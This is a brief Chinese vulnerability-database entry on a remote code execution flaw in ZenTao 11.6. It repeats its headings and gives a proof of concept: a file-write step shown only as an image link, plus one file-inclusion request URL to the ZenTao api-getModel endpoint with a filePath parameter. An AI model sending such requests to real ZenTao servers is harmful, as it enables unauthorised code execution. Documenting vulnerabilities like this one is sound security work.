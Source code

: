 ```yaml
---
title: '禅道11.6RCE漏洞'
date: Thu, 17 Sep 2020 01:55:17 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

禅道 11.6

### 漏洞POC

文件写入

### 漏洞范围

禅道 11.6

### 漏洞POC

文件写入 [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_161ea4340a8a62b6623dcb3c8f58ac7e.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_161ea4340a8a62b6623dcb3c8f58ac7e.jpg) 文件包含```
http://127.0.0.1/zentaopms_11.6/www/api-getModel-api-getMethod-filePath=/tmp/123/1 

```

```